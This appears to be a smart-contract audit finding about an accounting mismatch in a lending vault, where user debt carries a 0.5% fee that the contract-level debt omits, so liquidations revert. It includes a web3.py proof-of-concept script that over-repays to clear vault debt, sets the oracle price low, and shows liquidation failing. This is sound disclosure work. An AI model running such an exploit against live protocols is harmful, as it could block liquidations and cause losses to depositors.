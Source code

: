 For simplicity, we assume there's only one user in the vault.
Example:

1.  User deposits 1.2 M worth of BTC and borrows 1M USDM.
2.  The user's debt (`details[_id].debt`) would be 1.005 M as there's a .5 percent fee.
3.  The contract's debt is 1M.
4.  BTC price decrease by 20 percent
5.  The liquidator tries to liquidate the position.
6.  The liquidator repays 1.005 M and the contract tries to sub the debt by 1.005 M
7.  The transaction is reverted as `details[_id].debt -= _usdm;` would raise exception.

inaccurate accounting would lead to serious issues. I consider this a high-risk issue.

#### Proof of Concept
This is a web3.py script that a liquidation may fail.

```python
deposit_amount = 10**18
big_deposit = deposit_amount * 100000
minter.functions.mint(user, big_deposit).transact()

dai.functions.approve(vault.address, big_deposit + deposit_amount).transact()

# create two positions
vault.functions.mint(user, zero_address).transact()
vault.functions.mint(user, zero_address).transact()

# # borrow max amount
vault.functions.increase(0, big_deposit, big_deposit, zero_address, '').transact()
vault.functions.increase(1, deposit_amount, deposit_amount, zero_address, '').transact()

vault_debt = vault.functions.debts().call()

# ## This would clear out all debt in vault.
repay_amount = vault_debt + 10**18
usdm.functions.approve(vault.address, repay_amount).transact()

vault.functions.repay(0, repay_amount).transact()

print('debt left:', vault.functions.debts().call())
# ## All the positions would not be liquidated from now on

dai_price = cssr_factory.functions.getPrice(dai.address).call()
cssr_factory.functions.setPrice(dai.address, dai_price[0] // 10).transact()

## this would revert
liquidator.functions.triggerLiquidation(dai.address, 1).transact()
```

#### Recommended Mitigation Steps
I believe this is a mistake. Recommend to check the contract to make sure `increasingDebt` is used consistently.
